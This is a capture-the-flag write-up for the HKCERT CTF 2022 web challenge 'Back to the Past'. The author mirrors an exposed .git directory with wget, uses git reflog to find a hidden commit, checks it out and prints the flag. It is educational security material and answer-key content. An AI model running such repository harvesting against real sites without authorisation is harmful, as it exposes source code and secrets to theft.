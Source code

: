 # Back to the Past

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★☆☆☆☆

## Background

Web: [http://chal.hkcert22.pwnable.hk:28222](http://chal.hkcert22.pwnable.hk:28222)

Solution: [https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795](https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215817.png)

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215846.png)

**View-source:**
```html
<html>
<head>
    <title>Welcome</title>
</head>

<body style="background: black; color: white;">
    <h1 style="text-align:center;">Welcome to my home page!</h1>

    <p style="text-align:center;"><a href="https://www.youtube.com/watch?v=o1UcRXTXmN4><img src="img/door.png" height="200" class="center"
[...]
```

**Let's explore this web page!**

When I click the door, it brings me to a YouTube video, which is not helpful.

**However, when I go to `/img` directory, I see a picture file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220053.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220057.png)

403 Forbidden...

Since the challenge's name is `Back to the Past`, this got me thinking: **Is this website being pushed via `git`?**

**If so, it might have a directory call `.git`**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220207.png)

**Boom! Let's `wget` all the files!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Back-to-the-Past]
└─# mkdir .git;cd .git            
                                                                                                           
┌──(root🌸siunam)-[~/…/HKCERT-CTF-2022/Web/Back-to-the-Past/.git]
└─# wget -r http://chal.hkcert22.pwnable.hk:28222/.git/

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah            
total 20K
drwxr-xr-x 4 root root 4.0K Nov 11 22:03 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
drwxr-xr-x 8 root root 4.0K Nov 11 22:03 .git
drwxr-xr-x 2 root root 4.0K Nov 11 22:03 img
-rw-r--r-- 1 root root 1.8K Oct 25 10:34 index.html
```

**Since it's a `.git` directory, we can view it's logs and commits!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git log
commit 77fe6ae33755cbac75cf2bf00014a9e4b2f08903 (HEAD -> master)
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:48:35 2022 +0800

    Final webpage

commit a9c248a136bb24592cfe1dd14805dde9da321c4d
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:38:59 2022 +0800

    Initial

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git reflog 
77fe6ae (HEAD -> master) HEAD@{0}: commit: Final webpage
a9c248a HEAD@{1}: reset: moving to a9c248a136bb24592cfe1dd14805dde9da321c4d
4ba5380 HEAD@{2}: commit: What is this?
a9c248a HEAD@{3}: commit (initial): Initial
```

**The `What is this?` commit looks sussy!**

**Let's `checkout` that commit!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git checkout 4ba5380 -f
```

```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah
total 16K
drwxr-xr-x 3 root root 4.0K Nov 11 22:07 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
-rw-r--r-- 1 root root   52 Nov 11 22:07 flag.txt
drwxr-xr-x 8 root root 4.0K Nov 11 22:07 .git
                                                                                                           
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# cat flag.txt                     
hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

We got the flag!

# Conclusion

What we've learned:

1. Insecurely Storing Files